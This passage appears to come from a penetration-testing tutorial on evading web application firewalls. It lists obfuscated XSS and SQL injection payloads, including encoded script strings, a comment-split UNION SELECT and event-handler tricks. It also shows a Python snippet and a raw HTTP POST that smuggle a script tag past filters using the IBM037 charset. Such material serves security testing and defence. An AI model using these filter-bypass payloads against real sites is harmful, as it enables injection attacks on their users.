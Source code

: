 While obfuscation is a possible way to bypass regex, they have been divided into different sections to showcase more exclusively a selection of obfuscation techniques.


```
Function("ale"+"rt(1)")(); #using uncommon functions besides alert, console.log, and prompt  
javascript:74163166147401571561541571411447514115414516216450615176 #octal encoding  
<iframe src="javascript:alert(`xss`)"> #unicode encoding  
/?id=1+un/**/ion+sel/**/ect+1,2,3-- #using comments in SQL query to break up statement  
new Function`alt\`6\``; #using backticks instead of parentheses  
data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+ #base64 encoding the javascript  
%26%2397;lert(1) #using HTML encoding  
<a src="%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A%3Aconfirm(XSS)"> #Using Line Feed (LF) line breaks   
<BODY onload!#$%&()*~+-\_.,:;?@[/|\]^`=confirm()> # use any chars that aren't letters, numbers, or encapsulation chars between event handler and equal sign (only works on Gecko engine)
```
Additional resources include [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#filter-bypass-and-exotic-payloads) and [OWASP](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html).

[2. Charset](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/waf-bypass)
-----------------------------------------------------------------------------------------------

This technique involves modifying the `Content-Type` header to use a different charset (e.g. `ibm500`). A WAF that is not configured to detect malicious payloads in different encodings may not recognize the request as malicious. The charset encoding can be done in Python


```
$ python3  
-- snip --  
>>> import urllib.parse  
>>> s = '<script>alert("xss")</script>'  
>>> urllib.parse.quote\_plus(s.encode("IBM037"))  
'L%A2%83%99%89%97%A3n%81%93%85%99%A3M%7F%A7%A2%A2%7F%5DLa%A2%83%99%89%97%A3n'
```
The encoded string can then be sent in the request body and uploaded to the server.


```
POST /comment/post HTTP/1.1  
Host: chatapp  
Content-Type: application/x-www-form-urlencoded; charset=ibm500  
Content-Length: 74  
  
%A2%83%99%89%97%A3n%81%93%85%99%A3M%7F%A7%A2%A2%7F%5DLa%A2%83%99%89%97%A3
```
3. Content Size
---------------

In some cloud-based WAFs, the request won’t be checked if the payload exceeds a certain size. In these scenarios, it is possible to bypass the firewall by increasing the size of the request body or URL.

4. Unicode Compatibility
------------------------
